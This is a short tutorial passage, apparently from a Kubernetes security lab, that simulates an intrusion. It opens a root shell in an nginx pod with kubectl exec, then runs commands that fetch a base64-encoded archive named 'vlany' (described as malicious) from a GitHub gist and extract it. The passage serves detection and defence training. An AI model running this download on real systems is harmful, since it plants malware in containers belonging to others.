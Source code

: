 
Let's simulate an attack on our cluster by logging into it and running some nefarious commands.  In this example we will use `kubectl exec` to get a shell into the container, and from there we will install some system updates, install a package, then download a `tar` file, explode it. This routine may be typical of a malware or user instigated attack.

First let's create a deployment.  To do so we can simply run the script `create.sh`

```
master $ ./create.sh
namespace/nginx created
deployment.apps/nginx-deployment created
```

If you wish you can `cat create.sh` to see exactly what the script does, but it simply instantiates  YAML file for an `nginx` deployment, creates the deployment and then removes the YAML file.

Verify the Pod has STATUS 'Running' and READY '1/1' before continuing.

```
$ kubectl get pods -n nginx
NAME                               READY   STATUS    RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   1/1     Running   0          80s
```

Make a note the Pod name, as you will require that shortly.

Now that the deployment is running, let's simulate the attack.  

Run the following command to create a shell into the running Container, substituting the pod name as appropriate

```
$ kubectl exec -it nginx-deployment-5d57c58f5-4zdj4 -n nginx -- /bin/bash
root@node01:/#
```

You can execute the commands inside the container, or even download some malicious file.

```
$ apt-get update
$ apt-get install curl -y
$ mkdir mymalware
$ cd mymalware
$ curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz
$ tar zxvf vlany-master.tar.gz
```
